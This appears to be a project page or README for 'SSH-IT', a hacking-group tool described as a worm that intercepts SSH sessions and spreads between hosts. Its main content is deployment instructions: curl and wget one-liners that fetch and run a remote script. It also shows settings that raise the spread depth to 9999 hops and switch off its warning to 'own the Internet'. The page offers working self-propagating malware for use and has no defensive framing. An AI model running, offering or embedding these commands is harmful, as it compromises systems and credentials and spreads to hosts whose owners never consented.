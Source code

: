 ```yaml
---
layout: default
---
```


Use either one of these commands to deploy:
```shell
bash -c "$(curl -fsSL ssh-it.thc.org/x)"
```
```shell
bash -c "$(wget --no-verbose -O- ssh-it.thc.org/x)"
```

To uninstall use:
```
thc_ctl clean
```

Screenshot
{:refdef: style="text-align: center;"}
![Deploy-Example](deploy-example.jpg)
{: refdef}

### ALPHA TESTING

This is ALPHA STAGE. DO NOT SHARE.
If you know about this then consider yourself special. Join us on [Telegram](https://t.me/thcorg).

ALPHA DEFAULT SETTINGS:
* ```THC_VERBOSE=1``` You will see a warning when *ssh* is being intercepted.
* ```THC_DEPTH=2``` The worm will stop spreading 2 hops from the host where it got deployed.

Take off all safety and run SSH-IT in release mode like this:
```shell
THC_NO_CONDOME=1 bash -c "$(curl -fsSL ssh-it.thc.org/x)"
```

Or go totally bonkers and own the Internet:
```shell
THC_DEPTH=9999 THC_NO_CONDOME=1 bash -c "$(curl -fsSL ssh-it.thc.org/x)"
```

### Contact

Twitter: [https://twitter.com/hackerschoice](https://twitter.com/hackerschoice)  
Telegram: [https://t.me/thcorg](https://t.me/thcorg)  
Web: [https://www.thc.org](https://www.thc.org)  
Medium: [https://medium.com/@hackerschoice](https://medium.com/@hackerschoice)  
E-Mail: members@thc.org  


